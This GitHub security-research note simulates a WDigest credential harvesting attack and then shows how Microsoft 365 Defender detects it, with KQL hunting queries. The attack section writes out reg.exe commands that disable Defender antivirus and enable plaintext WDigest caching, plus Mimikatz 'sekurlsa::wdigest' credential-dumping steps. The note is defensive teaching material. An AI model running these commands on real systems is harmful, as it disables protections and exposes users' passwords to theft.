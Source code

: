 # Day 13 - WDigest credential harvesting - attack
Hi there !! Thank you for visiting [@SecurityResearch-Note](https://github.com/LearningKijo/SecurityResearcher-Note). 
Today, I'm diving into the WDigest credential harvesting attack, breaking it down into three parts. 
1. WDigest credential harvesting - Attack technique 
2. WDigest credential harvesting - Detection
3. WDigest credential harvesting - Threat Hunting

#### Attack overview
WDigest, an outdated authentication protocol still found in corporate networks, is exploited by attackers to steal passwords and evade security measures. 
Its use exposes passwords in plain text, making it a favored target. Attackers modify registry settings to enable WDigest, often using various attack vectors. 


![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/05b4876b-ebe3-48fc-8b59-398cffe0d928)
> WDigest credential harvesting attack flow, [Threat Analytics](https://learn.microsoft.com/en-us/microsoft-365/security/defender/threat-analytics?view=o365-worldwide) in Microsoft 365 Defender

## Attack technique
The attack flow begins with disabling the antivirus solution to change a registry key, enabling WDigest, and downloading the Mimikatz tool. 
Following this, a command is executed to enable WDigest and run the Mimikatz tool using the "sekurlsa::wdigest" command.

#### 1. Disable Microsoft Defender antivirus
   - [x] DisableRealtimeMonitoring,  [Real-time protection]
   - [x] SpynetReporting, [Cloud-delivered protection]
   - [x] SubmitSamplesConsent, [Automatic sample submission]

```powershell
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 1 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SpynetReporting" /t REG_DWORD /d 0 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SubmitSamplesConsent" /t REG_DWORD /d 2 /f
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/28105886-3f1d-4cea-8de8-c7048a60bd9a)

> [!Important]
> These commands disabled Microsoft Defender Antivirus configurations. To prevent and detect these attack techniques, enabling [Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide) is the most effective approach, as it safeguards against disabling antivirus.

#### 2. Enable Wdigest
[MITRE | ATT&CK, Modify Registry, T1112, Wdigest](https://attack.mitre.org/techniques/T1112/)

```powershell
reg.exe add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 1 /f
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/49e3a65c-fe1c-42da-9ac6-902fa5f1f51b)

> [!Important]
> Even if the antivirus didn't detect and prevent the WDigest configuration change, Microsoft Defender for Endpoint, as EDR solution, can detect these activities and provide alerts.

#### 3. Download & Execute Mimikatz tool
Download - [GitHub - ParrotSec/mimikatz](https://github.com/ParrotSec/mimikatz)

```mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::wdigest
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/9ef03db8-22a6-45fc-a8ca-5ac7dd4bb298)

> [!Important]
> In terms of endpoint protection, Microsoft Defender Antivirus and Microsoft Defender for Endpoint are the most effective solutions for preventing and detecting Mimikatz activities.
> Additionally, when it comes to addressing lateral movement and enhancing identity visibility, Microsoft Defender for Identity is a valuable product for detecting such activities.

## Detection
After simulating a WDigest credential harvesting attack, let's examine how this attack is mapped into a single incident in Microsoft 365 Defender portal.

All the attack techniques, from disabling antivirus to executing Mimikatz, were detected by Microsoft Defender for Endpoint, generating 11 alerts. Additionally, Threat Analytics provides insights related to Mimikatz and WDigest credential harvesting.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/1c9c3f9d-4ff2-4269-b67f-f6d6a67f72b3)

In the incident page, you might see a number of alerts, related assets, MITRE techniques, and more. 
At the same time, I'd like to highlight some alerts from the simulation as shown below.

#### ***Alert : Microsoft Defender Antivirus protection turned off***
A protection feature in Microsoft Defender Antivirus has been turned off. An attacker might be trying to evade detection.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/dde8b17c-38bc-4847-87fc-d8940ebc8313)

#### ***Alert : WDigest configuration change***
An attempt to turn on the WDigest authentication provider through the registry was observed.
If the attempt is successful, WDigest will load on the next restart and begin to store credentials as plaintext in LSASS process memory. An attacker might be attempting to collect those credentials.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/8065422f-a296-46a3-82a0-71a0997108db)

#### ***Alert : Malicious credential theft tool execution detected***
A known credential theft tool execution command line was detected. Either the process itself or its command line indicated an intent to dump users' credentials, keys, plain-text passwords and more.
> [!Note]
> The two mimikatz commands (mimikatz # privilege::debug, mimikatz # sekurlsa::wdigest) which I simulated on the device were detected by Microsoft Defender for Endpoint. Also, an alert - 'Mimikatz credential theft tool' was triggered when downloading Mimikatz on the device.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/d4325269-853e-4488-837d-2a56e77b0928)


## Threat Hunting
For threat hunting purposes, here are some KQL queries to track activities like disabling antivirus, changing WDigest configurations, and executing Mimikatz tool.

#### WDigest configuration change
This query helps identify attempts to enable WDigest credentiall caching through the registry.

```kql
union DeviceRegistryEvents, DeviceProcessEvents
// Find attempts to turn on WDigest credential caching
| where RegistryKey contains "wdigest" and RegistryValueName == "UseLogonCredential" and RegistryValueData == "1" or 
// Find processes created with commandlines that attempt to turn on WDigest caching
ProcessCommandLine has "WDigest" and ProcessCommandLine has "UseLogonCredential" and ProcessCommandLine has "dword" and ProcessCommandLine has "1"
| project Timestamp, DeviceName, PreviousRegistryValueData,  
RegistryKey, RegistryValueName, RegistryValueData, FileName, ProcessCommandLine, 
InitiatingProcessAccountName, InitiatingProcessFileName, 
InitiatingProcessCommandLine, InitiatingProcessParentFileName
```
> **Source** : WDigest credential harvesting, Threat Analytics in Microsoft 365 Defender

#### Mimikatz CommandLine

```kql
DeviceProcessEvents
| where Timestamp > ago(30d)
| where FileName in~ ("powershell.exe","powershell_ise.exe", "mimikatz.exe")
| where ProcessCommandLine has_any ("sekurlsa","kerberos","crypto", "vault", "lsadump") or InitiatingProcessCommandLine has_any ("sekurlsa","kerberos","crypto", "vault", "lsadump")
| summarize make_set(ProcessCommandLine) by DeviceId, DeviceName
```

## Reference
1. [Forcing WDigest to Store Credentials in Plaintext](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/forcing-wdigest-to-store-credentials-in-plaintext)
2. "WDigest credential harvesting", from [Threat Analytics](https://learn.microsoft.com/en-us/microsoft-365/security/defender/threat-analytics?view=o365-worldwide) in Microsoft 365 Defender

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
